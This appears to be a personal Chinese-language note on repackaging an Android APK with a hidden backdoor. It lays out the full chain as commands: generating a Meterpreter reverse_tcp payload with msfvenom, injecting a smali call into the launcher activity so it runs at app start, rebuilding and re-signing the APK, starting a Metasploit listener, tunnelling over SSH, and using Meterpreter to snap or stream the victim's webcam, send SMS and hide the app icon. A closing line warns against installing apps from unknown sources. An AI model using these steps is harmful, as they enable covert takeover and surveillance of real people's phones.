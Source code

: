 # 拆包笔记（起因是想玩一下移动开发的淘矿）
### 拆：
```
apktool  d -r  /root/xxxx.apk
/*加上-r才能解决再次打包失败的问题，一堆png和jpg错误*/
//但这样拆出来的有些东西就没办法改了，去掉-r才能改

#安卓后门  payload.apk生成
msfvenom -p android/meterpreter/reverse_tcp LHOST=xx.xx.xxx.xx LPORT=xxx R>/root/payload.apk
//继续拆包，更改文件，
apktool d payload.apk
//在 AndroidManifest.xml中  查找launcher  找到SplashActivity.smali文件地址 
//在文件中onCreat方法（如果没有，在constructor中找到文件位置再去找方法）下添加invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V，app启动时payload一起启动

```
```



cp /payload/smali/com/* smali/com/ -r
//注意在正确目录下执行
//AndroidManifest.xml中uses-permission android:name=修改


```

### 打包
```
apktool b xxxx（拆包所得的文件夹）
//dist文件夹下生成了再次打包后的apk
//在dist目录下生成签名文件
keytool -alias myKey -genkey -v -keystore my-release-key.keystore -keyalg RSA -keysize 2048 -validity 10000
//对重新打包的apk进行签名
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore 1.apk myKey
//这样手机就能安装了


```

### 监听
```
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST xx.xx.xxx.xxx（ip）
set LPORT xxx
exploit
............
.......
.....


```

### 查看app签名信息
```
keytool -printcert -file /root/xxx/original/META-INF/CERT.RSA
//xxx为拆包后生成的文件夹

```


### SSH打洞
```
ssh -C -f -N -b 0.0.0.0 -R 8080:localhost:8080 root@ip



```

### [后门生成](http://pro.leanote.com/pe/5cdafcc0d1b212f67fc062b4#h3-1-%E6%89%93%E5%8C%85) 
### [监听](http://pro.leanote.com/pe/5cdafcc0d1b212f67fc062b4#h3-2-%E7%9B%91%E5%90%AC) 
### Meterprete 命令
```
sysinfo    //系统信息
webcam_snap -i 1
check_root  //查看是否root
send_sms -d +手机号 -t "GREETINGS PROFESSOR FALKEN."  //发短信
webcam_stream    //显示实时画面
hide_app_icon    //隐藏
webcam_list   //几个摄像头

```
玩这个多要了解点基础知识。粗略写一写，笔记。
#                         [Meterpreter命令详解](https://www.cnblogs.com/backlion/p/9484949.html)                         

忠告：不要安装来源不明的app，很危险。。。






